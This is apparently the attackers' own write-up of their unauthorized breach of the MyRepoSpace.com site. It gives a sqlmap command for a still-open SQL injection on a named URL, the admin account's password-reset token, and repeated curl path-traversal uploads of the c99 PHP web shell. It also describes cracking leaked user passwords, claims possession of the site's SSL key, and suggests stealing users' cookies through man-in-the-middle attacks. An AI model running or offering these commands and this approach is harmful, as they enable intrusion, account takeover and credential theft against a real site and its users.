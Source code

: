 # MyRepoSpace-Hack
Writeup on how the MyRepoSpace.com hacks were done 
#How We Hacked MyRepoSpace
For this write-up, I'm going to only cover _how_ we were able to gain access to the MRS server, and not the reasons for us doing so.

###How it started
The first bug we used on MRS was a blind SQL injection, found by Ben. This let us access all information stored in the websites databases, but being a blind injection, retrieving anything was very slow. We inadvertently DOS'd the site doing this, bringing it down a few times... Oops.

The URL vulnerable to the injection is: 
```http://myrepospace.com/register/check1.php?nick=1```

Using SQLMap, we could gain a SQL shell with:
```./sqlmap.py -u "http://myrepospace.com/register/check1.php?nick=1" --sql-shell```

**This has not been fixed**

Using this injection, Ben started snooping through the database contents and  discovered something interesting. Located in the `users` database was a column called `forgetToken`. Investigating further, it was revealed that this token was a randomly generated string, 32 characters long, used for password resets. And it was stored in plain text. 
When you combine this token with the users `id`, you can then do something like this:
```https://www.myrepospace.com/login/forgot.php?id=215086&v=93bfb5d60cd3778ec5558e29dc3e8c09```

And you would be greeted with this:

![Password reset page](http://i.imgur.com/tlt5kVI.png)

We could change any users password, access any account that we wanted. The admin account for the site was user id `1`, and with a forgetToken of `0efd8bb79347ada32d249d5f77e6149c`.

###What next?
So this is fun, we could access any account on the site, including the admin's account - but we wanted more. So I went searching. 

One of MRS's 'tools' is iDeb - a part of the site that allows you to upload a zip file, and it converts it into a deb file. This is very handy, but unfortunately it was written very poorly. 

It worked by moving the uploaded zipped file to a temporary directory, unzipping the contents, and then running the `ar` command on the unpacked files to create the debian package. The temporary directory would look something like `http://www.myrepospace.com/iDeb/temp/July/5599b6ff99dba/`, and was completely accessible to us. **This is bad**.

So after figuring out how the iDeb system worked, I simply took a popular php shell, c99.php, zipped it, and uploaded it to be packaged as a deb. Once uploaded, I navigated to the newly created temp directory for the upload, and sure enough `c99.php` was the first file listed. We now had full access to the server, including access to the mysql database. [Discovered by Ethan]

![MySQL database on MRS](http://i.imgur.com/5pihv7Z.png)

###Admin's fix part 1
The first fix the owner of the site did was moving the temporary directory files were unpacked in to a place we couldn't access - `~/tmp`, the full path being something like `~/tmp/iDeb/July/5599b6ff99dba/zip_contents_here`. You'll notice that random string - this is called a UID and is randomly generated **client side** and sent to the server when you upload a zip file. On the server, iDeb runs this code, creating the directory with the UID:

```
$uID = $_POST['UPLOAD_IDENTIFIER'];
$tmp = "/home/myreposp/tmp/iDeb";
$to = "$tmp/$month/$uID/";

if(!File_exists($to)){
	mkdir($to, 0755, true);
}
```
In order to access our uploaded files (the php shell), we need to have them uploaded to a place accessible to us - specifically `/home/myreposp/public_HTML`. Since the `UID` is created client side, we can manually specify it - and since the site doesn't perform any type of checks on the `UID` its sent, we can do some dirty things using curl and path traversal.

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html" -F "upload=@c99.zip" http://www.myrepospace.com/iDeb/upload.php
```

This would unpack our zipped file's contents to the root directory of the website... and we were back in. [Discovered by Ben]

###Admins's fix part 2 
The next thing the site owner did was make the `public_html` directory `root` owned - meaning we couldn't write any files to it. This was actually a pretty clever move, but was executed fairly bad. He forgot to make any subdirectories root owned. `~/public_html/` was off limits, but `~/public_html/vip` wasn't. 

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.zip" http://www.myrepospace.com/iDeb/upload.php
```

We were back in. [Discovered by Ethan]

###Admin's fix part 3
After this breach, the tool was modified to delete the unpacked files after the deb was created. It would take the zip file, unpack it, use `ar` to make the deb, and then delete everything except for the new deb, and the original zip (both of which were useless to us). 

Ok, no problemo! We'll just stop uploading zip files, and start uploading our php shell directly, since the only file type check was done client side through ajax. 

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.php" http://www.myrepospace.com/iDeb/upload.php
```

And once again, we were in. [Discovered by Andy]

###Admin's fix part 4
So the admin caught on to us uploaded php files, and added a regex check in `upload.php` to ensure no non-zips were uploaded. When we tried to upload our php shell, it returned a scary error telling us we were uploading an invalid file. Awh! But no worries... even though it threw an error at us, it still uploaded our file as usual. Nice job admin!

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.php" http://www.myrepospace.com/iDeb/upload.php
```

Ignoring scary errors, we were still in. [Discovered by Andy]

##¯\\\_(&#12484;)_/¯
That's about it, after the last breach the iDeb tool was properly fixed, and our method of getting in was broken. But have no fear, we released the source code to the site, which will reveal that it is littered with bugs and sql injections! All of these 'hacks' were achieved through exploiting a single file, who knows how many other files are as vulnerable as this one was.

~herpes

###About passwords
Passwords were initially **unsalted md5**, until the 2nd of February when the admin switched to... md5 with a static salt. "MRS-WINS", prepended to the password, in case you were wondering. The admin was [quite proud of this](https://twitter.com/myRepoSpace/status/562613742794706944). He kindly left the old passwords in the database for people who hadn't yet changed theirs. We were able to recover about 5000 through rainbow tables and basic dictionary attacks on a recent mid-range CPU in a few hours alone (for research purposes only - but honestly, us telling you we did this is better than someone else secretly using it for evil).

Password resets always use the same static hash (again, an md5 of the password and the unix time of registration tacked on) and so to get into someone's account you can just grab that and paste it into the password reset url. I don't think these ever got re-generated so if someone got a hold of it, you'd be pretty screwed.

After we leaked the user database, the admin changed the hashing to... md5 with a static salt. Now it's "MRS-WINS-AGAIN" - yeah um, nice try but not quite. Apparently the fact that md5 has long been considered obsolete, flawed, and very fast to brute-force on modern hardware, in combination with the fact that a static salt does very little to help, isn't enough to make him spend a moment googling to find how passwords *should* be stored. Grab an md5 from the dump and spend some time learning how to log in without knowing the password by using a colliding hash - go on, I'll wait.

Oh well. It doesn't even matter any more, anyway, because he now kindly sends you a copy of your password hash as a cookie. 

```php
setcookie("gxli","2g".base64_encode("$_SESSION[userID]-$md5pass"),$time+58060800, '/', '.myrepospace.com',false,true);
```

So if you'd like to have a crack at bruteforcing someone's password, just MitM them to grab their cookies (not all of MyRepoSpace enforces HTTPS - oh, and we have their SSL key anyway). Or, change your own user ID, since it's used for the admin's logging. Last we saw this was one of the few places left that allows for an SQLi too. Child's play, really.

You might not think it's a big deal for a not so sensitive site like MyRepoSpace but any time passwords (hashed or not) are leaked, you can guarantee that many people would have used the same password on other sites that may very well be sensitive. There's also the thing of uploading evil packages on otherwise trustable people's repos.

Even if the MyRepoSpace admin claims everything is fixed, it's not. Don't waste your time, go make a repo on GitHub or something.

~ Andy
